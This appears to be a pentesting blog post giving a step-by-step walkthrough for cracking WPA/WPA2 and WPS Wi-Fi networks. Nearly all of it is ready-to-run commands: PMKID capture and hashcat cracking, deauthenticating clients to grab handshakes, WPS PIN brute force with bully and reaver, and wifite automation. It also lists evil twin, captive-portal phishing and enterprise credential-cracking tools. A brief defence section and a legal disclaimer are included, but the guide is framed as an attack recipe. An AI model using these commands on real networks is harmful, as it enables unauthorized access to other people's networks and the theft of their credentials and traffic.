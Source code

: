 ```yaml
---
title: "Hack Wi-Fi in 5 Minutes: WPA/WPA2/WPS Hacks"
description: >-
  No fluff. This is how real hackers break into most Wi-Fi networks in under 5 minutes. PMKID snatching, handshake cracking, WPS brute force, and real-world field tricks.
author:
name:
date: 2025-03-9 14:00:00 +0000
categories: [Pentesting]
tags: [wifi, aircrack, wpa, wps, pmkid, hacking, network]
---
```


> “Weak passwords + WPS or PMKID = Wi-Fi owned in 5 minutes.”
{: .prompt-info }

---

## Requirements

- Kali Linux / Parrot OS / BlackArch
- Wireless adapter that supports monitor mode and packet injection
- Tools: `airmon-ng`, `airodump-ng`, `aireplay-ng`, `aircrack-ng`, `bully`, `reaver`, `hcxdumptool`, `hcxpcapngtool`, `hashcat`

---

## Option 1: PMKID Attack (No Clients Required)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo hcxdumptool -i wlan0mon -o dump.pcapng --enable_status=1
```

Wait ~30 seconds to capture PMKID (no need to deauth anyone).

Convert the capture:
```bash
hcxpcapngtool -o hash.hc22000 dump.pcapng
```

Crack it:
```bash
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou.txt
```

---

## Option 2: WPA2 Handshake Capture + Crack

### 1. Enable monitor mode
```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
```

### 2. Scan for targets
```bash
airodump-ng wlan0mon
```

### 3. Capture handshake
```bash
airodump-ng -c <CH> --bssid <BSSID> -w handshake wlan0mon
```

### 4. Force deauthentication
```bash
aireplay-ng -0 5 -a <BSSID> -c <ClientMAC> wlan0mon
```

> `"Wait for "WPA Handshake" message to confirm capture."`{: .filepath}


### 5. Crack the handshake
```bash
aircrack-ng handshake.cap -w /usr/share/wordlists/rockyou.txt
```

> Use smarter wordlists from `cupp`, `pyrrate`, or custom `crunch`.
{: .prompt-tip }

---

## Option 3: WPS PIN Bruteforce

Try this if WPS is enabled. It's usually faster than handshake cracking.

### Bully (faster):
```bash
bully wlan0mon -b <BSSID> -c <CH>
```

### Reaver (slower fallback):
```bash
reaver -i wlan0mon -b <BSSID> -vv
```

Successful output gives:
```
[+] WPS PIN: 12345670
[+] WPA PSK: supersecretwifi123
```

---

## Bonus: Wi-Fi Password Spraying with Wifite

```bash
wifite
```

- Automates WPS/PMKID/Handshake attacks
- Use with custom rules and timeouts:
```bash
wifite --dict /path/to/wordlist.txt
```

---

## Defend Against These Attacks

- Disable WPS permanently
- Use WPA3 or WPA2 with 802.11w (PMF enabled)
- Use a secure password (16+ characters, symbols, random)
- Monitor wireless traffic with IDS/IPS tools like `Kismet`

---

## Legal Notice

> This guide is for educational and authorized penetration testing only. Unauthorized Wi-Fi hacking is illegal and unethical.
{: .prompt-warning }

---

## Speedrun Summary

| Attack Type         | Time     | Success Rate |
|---------------------|----------|---------------|
| PMKID Attack        | 1–2 min  | High          |
| WPA2 Handshake      | 3–4 min  | Medium–High   |
| WPS Bruteforce      | 1–5 min  | Very High     |
| Wordlist Cracking   | Varies   | Depends on pass strength |

---

## Next-Level Wireless Hacking (Advanced Ops)

- Rogue APs with `airgeddon` or `eaphammer`
- Evil twin + captive portal phishing with `wifiphisher`
- Use `hostapd` to clone SSIDs and trap clients
- Fake enterprise Wi-Fi with `hostapd-wpe`
- Crack EAP/MSCHAPv2 creds with `asleap`

---

## Lab Ideas

- Set up Wi-Fi attack VMs
- Use Raspberry Pi as a covert hacking station
- Practice using `WiFi Pumpkin 3` or `Fluxion`
- Capture real traffic from multiple clients using `hcxdumptool`

---

> **`“You don’t need to be the fastest. You just need to be near the signal.”`**{: .filepath}
